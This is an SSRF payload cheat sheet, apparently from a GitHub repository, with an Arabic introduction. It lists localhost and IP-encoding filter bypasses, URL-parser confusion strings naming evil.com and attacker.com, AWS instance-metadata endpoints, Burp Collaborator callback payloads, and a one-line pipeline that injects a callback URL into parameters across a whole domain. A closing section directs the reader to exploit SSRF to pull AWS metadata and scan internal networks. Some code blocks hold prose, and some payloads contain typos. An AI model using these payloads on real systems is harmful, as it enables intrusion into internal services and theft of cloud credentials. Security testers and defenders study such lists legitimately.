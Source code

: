 إليك تنظيم النقاط بشكل نصي عادي ومنظم:

---

### **SSRF (Server-Side Request Forgery) Payloads & Techniques**

#### **1. SSRF Payloads to Bypass Firewall**
1. **Bypass SSRF with CIDR**:
   ```bash
   http://127.127.127.127
   ```
2. **Bypass using Rare Address**:
   ```bash
   http://127.1
   ```
3. **Bypass using Tricks Combination**:
   ```bash
   http://1.1.1.802.2.2.2#03.3.3.3/
   urllib:3.3.3.3
   ```
4. **Bypass against a Weak Parser**:
   ```bash
   http://127.1.1.180@127.2.2.2:80/
   ```
5. **Bypass Localhost with `[::]`**:
   ```bash
   http://[::]:80/
   http://0000::1:80/
   ```

#### **2. What SSRF Allows**
- **Access Services on Loopback Interface**:
  ```bash
  Access services running on the loopback interface.
  ```
- **Scan Internal Network**:
  ```bash
  Scan and interact with internal network services.
  ```
- **Read Local Files**:
  ```bash
  Use `file://` protocol handler to read local files.
  ```
- **Lateral Movement**:
  ```bash
  Move laterally within the internal environment.
  ```

#### **3. Finding SSRF**
- **External Resource Access**:
  ```bash
  Test if the application allows loading external resources (e.g., profile images).
  ```
- **Port Scanning**:
  ```bash
  Use Burp Suite Intruder to scan ports by manipulating URLs.
  ```
- **Internal IP Scanning**:
  ```bash
  Scan private IP ranges like 192.168.x.x to discover alive hosts.

#### **4. AWS Metadata Retrieval**
- **AWS Metadata Endpoints**:
  ```bash
  http://169.254.169.254/computeMetadata/v1
  http://169.254.169.254/latest/meta-data
  ```

#### **5. URL Manipulation**
- **Burp Collaborator**:
  ```bash
  If the response has a link parameter, try sending it with your Burp Collaborator.
  ```
- **Open Redirect**:
  ```bash
  https://www.hahwul.com/phoenix/ssrf-open-redirect/
  ```

#### **6. Advanced SSRF Techniques**
- **Host Header Manipulation**:
  ```bash
  curl ip -H 'HOST: localhost'
  ```
- **Subdomain Manipulation**:
  ```bash
  target.com.(aydomain has IP 127.0.0.1)
  ```
- **Special Characters**:
  ```bash
  trarget.\com/%09/myburpcollab
  trarget.\com//myburpcollab
  trarget.\com\\myburpcollab
  target.\com/%0d/myburpcollab
  redirect_uri=target.\com&redirect_uri=attacker\.com
  redirect_uri=target.\com%40myburpcollab.\com
  ```
- **URL Parser Logic**:
  ```bash
  http://evil§google.com
  http://127.1:80@127.2.2.280/
  http://127.1:80@@127.2.2.280/
  0://evil.com:80http://google.com:80/
  ```
- **Unicode Normalization**:
  ```bash
  http://gооgle.com
  http://gⓞⓞgle.cⓞm
  ```
- **Address Encoding**:
  ```bash
  http://0177.0.0.1           # Octal Representation
  http://2130706433/          # Decimal Representation
  http://0x7f.0x0.0x0.0x1/    # Hex Representation
  http://0177.0x0.0x0.0x1/    # Mixed Representation
  ```
- **Localhost Representation**:
  ```bash
  http://0/
  http://127.1/
  http://0.0.0.0/
  http://127.127.127.127/
  ```

#### **7. IPv4 & IPv6 Variations**
- **IPv4 Standard Format**:
  ```bash
  http://127.0.0.1/
  ```
- **IPv4 Shortened Formats**:
  ```bash
  http://127.1/
  http://127.0.1/
  ```
- **IPv4 Decimal Representation**:
  ```bash
  http://2130706433/
  ```
- **IPv6 Representations**:
  ```bash
  http://[::1]/               # Standard IPv6 localhost
  http://[::ffff:127.0.0.1]/  # Mixed IPv6/IPv4
  ```
- **Localhost Name Variants**:
  ```bash
  http://localhost/
  http://localhost.localdomain/
  http://127.in-addr.arpa/
  ```
- **Empty Host**:
  ```bash
  http:///
  http://0/
  ```
- **Loopback Address Variants**:
  ```bash
  http://127.0.0.254/
  http://10.0.0.1/            # مثال لاختبار خاص بشبكات داخلية
  ```
- **Unicode and Punycode Normalization**:
  ```bash
  http://locaⅼhost/          # "l" مكتوب بـ Unicode مختلف
  http://lоcalhost/          # "o" مكتوب بشكل مختلف
  ```
- **Port Variations**:
  ```bash
  http://127.0.0.1:80/
  http://127.0.0.1:443/
  http://localhost:8080/
  http://localhost:3000/
  ```

#### **8. Blind SSRF Chains**
- **GitHub Resource**:
  ```bash
  https://github.com/assetnote/blind-ssrf-chains
  ```

#### **9. Automation Tools**
- **Findomain & Gau**:
  ```bash
  findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace your.burpcollaborator.net
  ```

---

### **How to Use This Information**
1. **Payload Testing**:
   - Use the provided payloads to test for SSRF vulnerabilities.
2. **Internal Network Scanning**:
   - Scan internal networks and services using SSRF.
3. **AWS Metadata Retrieval**:
   - Exploit SSRF to retrieve AWS metadata.
4. **URL Manipulation**:
   - Manipulate URLs to bypass filters and access restricted resources.
5. **Automation**:
   - Use tools like Findomain and Gau to automate SSRF discovery.

---

- https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet#id=8abff2b134596d1a84408e32730f1cc9c37cf68b
- https://portswigger.net/research/bypassing-character-blocklists-with-unicode-overflows
- https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html

